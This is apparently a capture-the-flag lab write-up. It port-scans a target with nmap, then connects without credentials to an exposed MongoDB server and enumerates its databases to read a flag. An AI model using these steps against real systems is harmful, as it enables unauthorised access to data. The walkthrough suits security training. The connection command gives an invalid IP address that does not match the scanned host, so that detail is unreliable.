 # Mongod

- TL;DR: Connect to a MongoDB server using the `mongo` cli tool without a username and password and get the flag in one of the database->collections->documents

## Reconnaissance

- Run an nmap scan:
```
nmap -p- --min-rate=1000 -sV 10.129.228.30

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-29 07:20 PDT
Nmap scan report for 10.129.228.30
Host is up (0.077s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
27017/tcp open  mongodb MongoDB 3.6.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.91 seconds
```
- `-p-`: This flag scans for all TCP ports ranging from 0-65535
- `-sV`: Attempts to determine the version of the serivce running on the port.
- `--min-rate`: This specifies the minumum number of packets that Nmap should send per second; it speeds up the scan as the number goes higher.


<br>

## Exploitation

- The scan shows the following ports are open:
    - `22/tcp` running the `ssh` service
    - `27017/tcp` running the `mongodb` service
- To connect to the `mongodb` service we download the `mongo` CLI using the following commands:
    ```
    curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz`
    tar xvf mongodb-linux-x86_64-3.4.7.tgz
    ```
    - Navigate to where the `mongo` binary is present: `cd mongodb-linux-x86_64-3.4.7/bin`
- Connect to the MongoDB server running on the remote host with:
    - `mongo mongodb:10.129.288.30:27017`
- Once connected, we can run the following commands to enumerate the MongoDB server:
    - `show dbs;`: Lists out all the databases on the server
    - `use sensitive_information;`: Uses the database specified in the command
    - `show collections;`: Lists out all the collections in the database selected from the previous command
    - `db.<collection_name>.find().pretty();`: Displays the contents of the collection specified in the command. That would be `flag` in our case. Example `db.flag.find().pretty();`


